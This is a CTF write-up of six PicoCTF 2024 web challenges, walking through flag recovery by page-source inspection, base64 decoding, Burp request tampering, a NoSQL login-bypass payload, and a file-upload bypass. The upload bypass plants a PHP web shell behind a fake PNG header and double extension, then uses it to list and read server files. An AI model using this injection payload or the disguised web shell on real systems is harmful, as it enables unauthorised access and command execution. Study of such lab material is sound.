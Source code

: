 ```yaml
---
author: krill
published: true
article_header:
  type: cover
tags:
  - ctf
  - web
  - xs-leaks
  - xss
title: PicoCTF_2024 Web Writeup
---
```

<!--more-->

## Bookmarklet
![](/images/CTF/pico2024/web/chall1.png)

Visiting the challenge instance, you get the following . .
![](/images/CTF/pico2024/web/book1.png)
you can solve the challenge by simply copying the javascript code in the form and pasting it in the browser console.

The code basically decrypts the encrypted data stored in the `encryptedflag` variable using the key `picoctf` and alerts the result which should contain the decrypted flag on the screen.

![](/images/CTF/pico2024/web/js.png)

## WebDecode
![](/images/CTF/pico2024/web/chall2.png)

We get this page when we visit the challenge instance.
![](/images/CTF/pico2024/web/decode.png)

 Clicking on the about page
 ![](/images/CTF/pico2024/web/about.png)

Inspecting the page (`ctrl` + `u`), shows the flag encoded in base64

![](/images/CTF/pico2024/web/base64.png)
you can easily decode that using https://cyberchef.io/ or using the base64 tool on your linux terminal

```
➜ echo -n 'cGljb0NURnt3ZWJfc3VjYzNzc2Z1bGx5X2QzYzBkZWRfMDdiOTFjNzl9' | base64 -d
```


## IntroToBurp
![](/images/CTF/pico2024/web/chall3.png)

You get a registration form when you launch the challenge instance. 

Go ahead and create an account
![](/images/CTF/pico2024/web/register.png)

You get redirected to a dashboard where you are required to provide some form of `OTP` for `2fa` authentication. 

intercept the request with `burpsuite` and mangle the `otp` parameter - this should give you the flag. 
![](/images/CTF/pico2024/web/mangle.png)

## Unminify
![](/images/CTF/pico2024/web/chall4.png)

You can easily view the page source (`ctrl` + `u`) and search for the string `picoCTF{`, you should get the flag : )

## No Sql Injection
![](/images/CTF/pico2024/web/chall5.png)

Launching the instance, you are given a login page - from the name of the challenge, we can tell that we need to perform some form of `no-sql` injection. 

Using the payload below, I was able to bypass the user login

```
{"$ne":""}
```

Intercepting the request with `burpsuite` and sending to `repeater`, we get a response from the server containing a user detail which also includes the token which is the flag encoded in base64. 

![](/images/CTF/pico2024/web/nosql.png)

```
➜ echo -n "cGljb0NURntqQmhEMnk3WG9OelB2XzFZeFM5RXc1cUwwdUk2cGFzcWxfaW5qZWN0aW9uX2EyZTBkOWVmfQ==" | base64 -d 
```


## Trickster
![](/images/CTF/pico2024/web/chall6.png)

We are given a page that allows us to upload files to the server 
![](/images/CTF/pico2024/web/upload.png)

Using `wapalyzer` we can check what the website was built with in order to know what language the payload should be in. 

![](/images/CTF/pico2024/web/wap.png)

we should be able to upload a php payload in order to get remote-code-execution on the server.

uploading the php file, I got the following error : ( 

![](/images/CTF/pico2024/web/error.png)

seems the filter put in place checks that the file contains `.png`, so I went ahead to create another file `file.png.php` with the following payload.

```php
PNG;

<?php system($_GET['cmd']); ?> 
```

This was successful and we should be able to access the payload by visiting `/uploads/file.png.php`

![](/images/CTF/pico2024/web/image.png)

the flag was stored in a `.txt` file in the web root directory.
```
atlas.picoctf.net:59649/uploads/file.png.php?cmd=ls -la ../
```

you can just read that : )

```
atlas.picoctf.net:59649/uploads/file.png.php?cmd=cat ../G4ZTCOJYMJSDS.txt
```



